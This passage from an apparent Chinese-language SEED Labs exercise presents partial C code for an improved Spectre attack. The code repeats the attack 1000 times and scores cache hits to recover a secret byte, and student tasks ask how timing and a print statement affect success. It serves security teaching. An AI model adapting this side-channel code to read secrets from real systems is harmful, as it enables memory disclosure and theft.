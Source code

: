 <div>在先前的任务中，我们可能会观察到结果具有一定的噪音且并非总是准确的。这是因为 CPU 有时会加载其它的值到缓存中以备将来使用，或者阈值不够准确。这种缓存中的噪音会影响我们的攻击结果。我们需要多次进行攻击。与其手动执行此任务，我们可以使用以下代码自动完成。</div>
<div> </div>
<div>我们利用了一种统计技术。其想法是创建一个大小为 256 的分数数组，每个可能的秘密值对应一个元素。然后我们多次运行攻击。每次如果我们的攻击程序表示 k 是秘密值（这结果可能是错的），则我们将 1 加到 scores[k] 中。多次运行攻击后，我们使用具有最高分数的 k 作为最终估计的秘密值。这比单一运行更为可靠。修改后的代码如下所示。</div>
<div> </div>
<pre class="language-c"><code>/* SpectreAttackImproved.c */
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i &lt; 256; i++) {
     ......
     if (time2 &lt;= CACHE_HIT_THRESHOLD)
        scores[i]++; /* 如果缓存命中，则为该值加1 */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... 省略：与 SpectreAttack.c 相同 ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i&lt;256; i++) scores[i]=0;

  for (i = 0; i &lt; 1000; i++) {
    printf("*****\n");                 🅰
    spectreAttack(index_beyond);
    usleep(10);                        🅱
    reloadSideChannelImproved();
  }

  int max = 0;                    
  for (i = 0; i &lt; 256; i++){
   if(scores[max] &lt; scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}</code></pre>
<div> </div>
<div>请编译并运行 SpectreAttackImproved.c 程序，并完成以下任务：</div>
<div> </div>
<ul>
<li>你可能会观察到，在运行上述代码时，最高分数很可能是 scores[0]。请找出为什么，并修改上述代码使实际的秘密值（不为零）被打印出来。</li>
<li>第 🅰 行看似无用，但从我们在 SEED Ubuntu 20.04 进行实验的经验来看，在没有这一行的情况下攻击将不会起作用。在 SEED Ubuntu 16.04 VM 虚拟机上则不需要这行代码。我们还没有找出确切原因。请运行带有和不带此行代码的程序，并描述观察结果。</li>
<li>第 🅱 行使程序休眠 10 微秒。程序休眠的时间长短也会影响攻击的成功率。请尝试其他几个值并描述观察结果。</li>
</ul>
<div> </div>
<p></p>
